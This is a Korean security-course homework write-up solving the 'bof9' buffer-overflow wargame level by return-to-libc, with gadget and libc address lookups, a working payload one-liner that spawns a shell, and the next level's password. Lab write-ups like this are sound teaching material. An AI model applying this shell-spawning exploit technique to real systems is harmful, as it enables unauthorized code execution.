










# GBC_security HW8  
## bof9 write-up  

### write-up에 앞서, 감비아대령통(빛승준) && 빛병민군의 도움으로 bof9를 해결했습니다.  

bof9를 해결하기 위해 RTL기법을 사용한다.  

1. buf address 와 vuln의 return address 거리를 구함.  
    -   
    -   
        - 여기서 flags를 조작해서, gets(buf)에서 buf를 구함.  
    - [vuln return address] = 0x7fffffffe4b8  
    - [buf address] = 0x7fffffffe4a8  
    -   
    *<u>길이 0x10(16)</u>*  

2. system address 를 구함.
    - 쉽다.  
    - p system으로 구할 수 있다.  
    -   
    - *<u>0x7ffff7a52390</u>*  

3. search-pattern /bin/sh으로 /bin/sh의 문자열을 search함.  
    -   
    - *<u>0x7ffff7b99d57</u>*  

4. 'pop rdi ; ret' 이 어셈블리어에 해당하는 기계어 코드를 찾아줌.  
    -   
    - pop rdi ; ret 이라는 코드가 21102만큼 떨어져있음.  

5. vmmap으로 주소의 시작값 찾아줌.  
    -   
    - *<u>[libc의 시작점] = 0x7ffff7a0d000</u>*

6. 시작점과 아까 찾은 값을 더해, pop rdi ; ret의 주솟값을 찾아줌.  
    -   
    - *<u>0x7ffff7a2e102</u>*  

7. 그림과 같이,  
      

    1. buf address와 return address 길이(16)만큼 'x'를 채워주고  

    2. pop rdi의 return address를 넣어준다.  
        - 이때, 6바이트만 넣으므로, 2바이트를 널으로 더 넣어준다.  
    3. /bin/sh의 문자열 주솟값을 넣어준다.  
        - 이때도 2바이트를 널으로 채워준다.  
    4. system 주솟값을 넣어준다.  
        - 2바이트를 널으로 채워준다. 8바이트가 아니기 때문.  

8. 완성된 명령.  
```  
(python -c "print 'x'*16+'\x02\xe1\xa2\xf7\xff\x7f\x00\x00'+'\x57\x9d\xb9\xf7\xff\x7f\x00\x00'+'\x90\x23\xa5\xf7\xff\x7f\x00\x00'";cat) | ./bof9  
```  

9. 결과.  
  

> bof10 passwd = `120bf293`  